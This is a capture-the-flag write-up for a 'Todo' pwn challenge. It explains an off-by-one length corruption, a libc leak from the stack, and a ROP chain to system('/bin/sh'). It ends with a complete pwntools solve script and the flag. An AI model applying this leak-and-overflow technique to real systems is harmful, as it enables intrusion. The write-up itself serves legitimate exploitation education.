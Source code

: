 # Todo
Author: `Carixo`

## Introduction
This challenge ships a stack-based todo manager that stores up to 32 notes inside a single `TodoList` structure that lives on `main`'s stack.

Remember to patch the binary to use the correct libc when debugging locally. This can be done using [pwninit](github.com/io12/pwninit)

## Binary Protections
- `Full RELRO`, `NX`, and `PIE` are enabled
- There is **no** `stack canary`

## Off-by-One Length Corruption

All user input funnels through `getInput`, which intends to stop reading after `size` bytes:

```c
void getInput(String *s, ssize_t size) {
    if (!s) return;
    for (int i = 0; i <= size; i++) {
        s->length = i;
        ssize_t n = read(STDIN_FILENO, s->str + i, 1);
        if (n <= 0 || s->str[i] == '\n') return;
    }
}
```

The important detail is that the loop condition is `i <= size`, so we write one byte past the `String.str` array (`MAX_STRING_LENGTH == 128`) and into the `length`.  

When we add a todo with 128 bytes followed by `0xff`, the struct stored in `TodoList.todos[idx]` now has:
- `str`: 128 bytes we control
- `length`: `0x00000000000000ff`

## Leaking Libc

`TodoList list` is allocated on `main`'s stack. Printing a todo uses `write(1, s->str, s->length)`, so the corrupted length lets us read 255 bytes starting from our string. For the last todo (index 31) this read walks:
1. Our string buffer (128 bytes)
2. The struct's `length` and the `TodoList.count` field
3. The `choice` variable in the `main` function
4. `main`'s saved frame pointer and, crucially, the saved return address (`__libc_start_call_main+122`)

By filling the list and then printing the final entry, we recover the return address, subtract the known offset, and obtain the libc base.

## From Edit to ROP

`editTodoItem` creates a new `String` with the same length as the original `String` in `list->todos[idx]`. `getInput` is then called on `edited`.

```c
String edited = {0};
edited.length = list->todos[idx].length;  // user-controlled 0xff
getInput(&edited, edited.length);         // overflows the stack frame
list->todos[idx] = edited;
```

With the length set to 0xff, `getInput` writes well beyond `edited.str`, overflowing the stack all the way to the stored return address. We craft the payload so that:
- Bytes `0x88–0x8f` (offset 136) rewrite the `idx` variable to a valid index (e.g. `20`), ensuring the concluding `list->todos[idx] = edited;` still works and doesn't segfault.
- Bytes `0xa8+` (offset 168) hold the ROP chain calling `system("/bin/sh")`.

When the function returns, execution pivots into `system("/bin/sh")`, giving us an interactive shell.

## Exploit Walkthrough

1. Spawn the process/remote and add 32 todos containing `b"A"*128 + b"\xff"`, corrupting every stored length to `0xff`.
2. Print the last entry; parse the 255-byte leak and recover the pointer to `__libc_start_call_main+122`, yielding the libc base.
3. Build a ROP chain (`ret; system("/bin/sh")`) using the given libc.
4. Use the edit menu and send the overflow payload:
   - Padding up to offset 136
   - `p64(idx)` to have a working index when copying the `String`
   - Padding up to offset 168, followed by the ROP chain
5. Drop into an interactive shell and read the flag.

## Solve Script

```py
from pwn import *

con = "10.212.173.64 32209"

host, port = con.replace(" ", ":").split(":")

ssl = False

binary = './todo_patched'

gdbscript = '''
    b *editTodoItem
    c
'''

elf  = context.binary = ELF(binary)
libc = context.binary.libc
context.terminal = ['tmux', 'splitw', '-h']



# utils
u64 = lambda d: struct.unpack("<Q", d.ljust(8, b"\0"))[0]
u32 = lambda d: struct.unpack("<I", d.ljust(4, b"\0"))[0]
u16 = lambda d: struct.unpack("<H", d.ljust(2, b"\0"))[0]

# credits to spwn by @chino
ru         = lambda *x, **y: p.recvuntil(*x, **y, drop=True)
rl         = lambda *x, **y: p.recvline(*x, **y, keepends=False)
rc         = lambda *x, **y: p.recv(*x, **y)
sla        = lambda *x, **y: p.sendlineafter(*x, **y)
sa         = lambda *x, **y: p.sendafter(*x, **y)
sl         = lambda *x, **y: p.sendline(*x, **y)
sn         = lambda *x, **y: p.send(*x, **y)
logbase    = lambda: log.info("libc base = %#x" % libc.address)
logleak    = lambda name, val: log.info(name+" = %#x" % val)
ls         = lambda x: log.success(x)
lss        = lambda x: ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))
one_gadget = lambda: [int(i) + libc.address for i in subprocess.check_output(['one_gadget', '--raw', '-l1', libc.path]).decode().split(' ')]

# exit_handler stuff
fs_decrypt = lambda addr, key: ror(addr, 0x11) ^ key
fs_encrypt = lambda addr, key: rol(addr ^ key, 0x11)


# heap stuff
prot_ptr = lambda pos, ptr: (pos >> 12) ^ ptr
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val


def start(argv=[], *a, **kw):
    if args.GDB: return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: return remote(host, port, ssl=ssl)
    else: return process([elf.path] + argv, *a, **kw)


def addTodo(todo):
    sla(b"choice: ", b"0")
    sa(b": ", todo)

def printTodoItem(index):
    sla(b"choice: ", b"1")
    sla(b": ", str(index).encode())
    ru(b": ")
    return rl()

def editTodoItem(todo, index):
    sla(b"choice: ", b"3")
    sla(b": ", str(index).encode())
    sla(b": ", todo)

p = start()
for i in range(32):
    addTodo(b"A"*128 + b"\xff")
todo = printTodoItem(31)
leak = [u64(todo[i:i+8]) for i in range(0, len(todo), 8)]
libc.address = leak[20] - (libc.sym.__libc_start_call_main+122)
logbase()

rop = ROP(libc)
rop.raw("A"*128) # fill buffer
rop.raw("B"*8) # length
# we are overflowing index as well, so we must make sure it is a "valid" index so that the copy can happen without issues
rop.raw(20)
rop.raw("A"*24) # extra padding
# ret to align stack so it's multiple of 16 (16 byte alignment)
rop.raw(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\x00")))

editTodoItem(rop.chain(), 0)

p.interactive()
```

## Flag

`flag{ad7c9b9ad75b4a6ef992f252c882568f}`

